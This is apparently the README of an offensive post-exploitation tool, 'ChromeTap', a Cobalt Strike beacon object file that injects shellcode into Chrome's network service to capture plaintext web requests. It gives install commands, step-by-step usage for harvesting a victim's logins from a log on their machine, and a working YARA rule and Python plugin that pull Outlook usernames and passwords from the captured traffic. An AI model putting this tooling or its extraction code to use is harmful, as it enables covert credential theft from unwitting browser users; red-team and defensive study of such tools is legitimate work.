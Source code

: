 # ChromeTap

Place a wiretap on chrome and steal secrets.

### Overview

ChromeTap is a beacon object file that will inject shellcode into chrome's network service that will place hooks allowing for plain text requests to be stolen before they are sent along the wire.  It solely uses direct syscalls to do this and is careful of its memory permissions. 

### Install

``` bash
$ git clone https://gitlabrt.internal.mdsec.co.uk/post-exploitation/chrometools/
$ cd chrometools/chrometap
$ pip3 install -r huntforsecrets/requirements.txt && make
```

### Usage

- Load the CNA into cobalt strike

![image-20210106122513885](imgs/image-20210106122513885.png)

- Run the command `chrometap`. This will overwrite the current log file so make sure its backed up if running the command multiple times.

  ![image-20210106122905830](imgs/image-20210106122905830.png)

- Once you have left it running for a while and think the user might have entered credentials into a website, download the log file which is stored in `C:\windows\temp\chromecrash.log` 

  ![image-20210106123621620](imgs/image-20210106123621620.png)

  The log file is going to be quite big, but that's just due to the technique used to steal the data. The good news is that it will compress really well so is worth compressing on disk before downloading.

  ![image-20210106124205776](imgs/image-20210106124205776.png)

- With the log file now on your local machine you can use the `./hunt.py` command to find secrets inside it

  ![image-20210106124833240](imgs/image-20210106124833240.png)

### Writing Plugins and Rules

`hunt.py` is only able to extract secrets from requests that have supported YARA rules and plugins. These are super easy to write. Here's an example of writing a them to extract data from outlook logins.

Looking at the HTTP login request its possible to pick out strings that are specific to the request and can be used to identify it.

![image-20210106131623124](imgs/image-20210106131623124.png)

Allowing a YARA rule, like the one below, to find it.

YARA rules should be stored in the `rules/` directory and both file name and rule name can be anything you like. 

```
rule outlook_creds {
    meta:
        author = "@_batsec_"
        plugin = "outlook_parse"
    strings: 
        $str1 = "login.live.com" 
        $str2 = "login=" 
        $str3 = "hisScaleUnit="
        $str4 = "passwd="
    condition: 
        all of them 
}
```

When `hunt.py` finds a match, it uses the value of the `plugin` variable in the rule as the name of the plugin to load and parse the request.

A plugin is just a function in the `plugins.py` file. 

It will be given the raw request as a bytes object and should return a dictionary containing the name and secret of everything it finds, e.g. `{'site': 'login.live.com', 'username': 'asdf%40asdf.com', 'password': 'ThisIsMyVerySecurePassword123%21'}`.

The plugin to parse the outlook request is shown below.

```python
def outlook_parse(request):

    creds = {}

    creds['site'] = 'login.live.com'

    login = re.search(rb'login=(.*)&', request).group(1).decode()
    login = login[:login.index('&')]
    creds['username'] = login

    passwd = re.search(rb'passwd=(.*)&', request).group(1).decode()
    passwd = passwd[:passwd.index('&')]
    creds['password'] = passwd
    
    return creds
```

Feel free to DM me if you find any bugs or have any questions.